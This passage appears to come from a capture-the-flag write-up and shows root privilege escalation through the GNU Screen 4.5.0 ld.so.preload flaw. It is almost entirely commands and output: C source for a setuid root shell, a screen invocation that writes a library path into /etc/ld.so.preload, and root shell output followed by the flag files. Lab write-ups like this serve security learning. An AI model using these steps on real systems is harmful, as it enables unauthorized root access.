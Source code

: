 ```
$ cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
$ gcc -o /tmp/rootshell /tmp/rootshell.c
$ rm -f /tmp/rootshell.c
```

```
$ cd /etc
$ umask 000
$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ /bin/screen-4.5.0 -ls
[+] done!
No Sockets found in /tmp/screens/S-www-data.

$ /tmp/rootshell
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

Now that I'm root I can grab both flags at the same time.

```
cat /root/root.txt
1fdbcf8c...

cat /home/shelby/user.txt
fe619454...
```